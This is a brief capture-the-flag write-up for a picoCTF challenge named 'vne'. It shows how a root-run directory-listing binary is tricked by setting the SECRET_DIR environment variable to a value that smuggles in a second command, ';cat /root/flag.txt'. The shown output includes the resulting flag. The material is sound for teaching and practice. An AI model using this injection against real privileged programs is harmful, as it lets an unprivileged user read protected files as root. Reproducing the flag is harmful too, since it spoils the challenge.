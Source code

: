 # solution of vne challenge

- ./bin binary list the files of the folder that is contained in the env variable SECRET_DIR

- first we have to set the environment variable SECRET_DIR to /root and we add to it a command that displays the flag value

```bash
ctf-player@pico-chall$ export SECRET_DIR="/root/;cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of /root/;cat /root/flag.txt as root: 
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_3f693329}
```
